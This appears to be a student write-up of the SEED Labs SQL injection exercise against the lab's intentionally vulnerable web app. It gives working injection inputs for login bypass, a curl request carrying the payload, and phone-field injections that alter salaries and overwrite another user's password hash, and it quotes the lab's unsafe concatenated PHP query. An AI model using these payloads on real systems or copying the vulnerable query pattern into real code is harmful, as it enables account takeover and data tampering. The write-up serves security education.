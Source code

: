 Task SQL Injection
### Task 1:
	Log in MYSQL:
//code
		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	Use such a SQL query:
//code
		select * from credential where Name='Alice';
https://github.com/mazharali12345/SQL-injection/blob/main/task%201.png

### Task 2:
### --> Task 2.1
	.USERNAME: "Admin' #"
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
//code
		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
    https://github.com/mazharali12345/SQL-injection/blob/main/task%202.1.png
### --> Task 2.2
	1- Write Code on Terminator in Seed Lab:
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4. Run this location on browser
https://github.com/mazharali12345/SQL-injection/blob/main/task%202.2.png

### --> Task 2.3	
	inject statment to append a row to current database:
//code	
	INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
	After row inserted, go to browser and input as:
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"
	.PASSWORD: "" (blank field)
https://github.com/mazharali12345/SQL-injection/blob/main/task%202.3.png
(optional lines)
	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

### --> Task 3.1
	1- Login as Username= 'Alice' && Password = xyz, 
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	3- Update Phone Number as ', Salary=1000000 and save.
### --> Task 3.2
	1- Login as Username= 'Boby' #' and then open edit profile
	2- Update Phone Number: ',Salary=0 and remaining unchanges
https://github.com/mazharali12345/SQL-injection/blob/main/task%203.2.png
	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
### --> Task 3.3
	We're login as Boby but change password of Alice
//backend code
	$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();

Updation will be on Phone Number field;
Let Boby password as '123'. We must get SHA1 value of new password via some tool as:
	c0b656d5e415ca1a8e098a408f913ec229e120b6
Constuct Phone Number:
	', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
Save it and changes works accordingly. 
https://github.com/mazharali12345/SQL-injection/blob/main/task%203.3.png

